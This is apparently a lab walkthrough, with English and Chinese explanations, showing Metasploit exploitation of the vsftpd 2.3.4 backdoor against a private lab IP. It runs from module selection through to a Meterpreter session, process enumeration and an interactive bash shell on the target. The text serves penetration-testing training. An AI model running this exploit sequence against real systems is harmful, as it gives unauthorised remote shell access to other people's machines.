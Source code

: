 Kali Linux : 192.183.4.2

Target IP Address : 192.183.4.3

```
msfconsole
setg RHOSTS 192.183.4.3
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
show options
exploit
```

```
sessions
sessions -u 1
sessions
sessions 2
```

We have our Meterpreter session. We can enumerate the list of running processes with Meterpreter by typing in `ps`.

`ps`: List running processes.

`ps`：列出正在运行的进程。

`suspend`: Suspends or resumes a list of processes.

`suspend`：挂起或恢复一组进程。

`pgrep`: Filter processes by name.

`pgrep`：按名称过滤进程。

`kill`: Terminate a process.

`kill`：终止一个进程。

```
meterpreter > ps
```

That will display the process list.

We can also filter the processes by name.

```
meterpreter > pgrep vsftpd
```

```
meterpreter > shell
/bin/bash -i
```

To do this manually, we can also utilize the Linux utility called `ps`. That will list out the list of processes.

```
ps
ps aux
```
